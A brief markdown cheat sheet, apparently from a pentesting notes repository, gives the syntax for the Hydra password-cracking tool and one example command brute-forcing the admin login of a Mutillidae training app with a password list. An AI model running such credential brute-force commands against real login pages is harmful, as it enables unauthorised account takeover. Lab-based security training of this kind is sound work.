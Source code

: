 # Hydra

## Syntax
```hydra [ip]  -l [usernames] -P [passwords] [service]```

## Example 
```cmd
hydra 10.20.14.212 -l admin -P /root/test.txt http-post-form "/mutillidae/index.php?page=login.php:username=^USER^&password=^PASS^&login-php-submit-button=Login:F=Not Logged In"
```
